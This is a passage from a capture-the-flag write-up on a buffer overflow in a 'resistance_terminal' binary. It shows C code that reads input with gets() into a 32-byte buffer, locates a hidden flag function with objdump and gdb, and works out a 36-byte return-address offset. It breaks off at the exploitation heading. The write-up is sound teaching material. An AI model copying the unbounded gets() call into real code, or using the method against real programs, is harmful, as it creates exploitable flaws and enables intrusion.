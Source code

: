 ## Vulnerability Discovery

Analyzing the source code (or through reverse engineering), I found the critical vulnerability in the authentication function:

```c
void vulnerable_function() {
    char password[32];
    printf("Enter resistance access code: ");
    gets(password);  // Vulnerable function with no bounds checking
    
    printf("Access denied. Your attempt has been logged.\n");
}
```

The vulnerability exists because:
1. The `gets()` function reads unlimited input into a 32-byte buffer
2. No bounds checking is performed on user input
3. We can overflow the buffer and overwrite the return address
4. There's a hidden `secret_function()` that prints the flag but is never called normally

## Finding the Target Function

Using static analysis tools to locate the secret function:

```bash
objdump -t resistance_terminal | grep secret_function
```

This reveals the function address:
```
080491d6 g     F .text  00000086 secret_function
```

We can also use `gdb` to find the address:

```bash
gdb ./resistance_terminal
(gdb) info functions
(gdb) print secret_function
```

## Determining the Buffer Offset

To exploit this vulnerability, I needed to find the exact offset to the return address. The buffer is 32 bytes, plus 4 bytes for the saved frame pointer (EBP), giving us a total offset of 36 bytes.

We can verify this using a pattern:

```python
from pwn import *
print(cyclic(50))
```

Testing in `gdb` confirms the 36-byte offset to control the return address.

## Exploitation
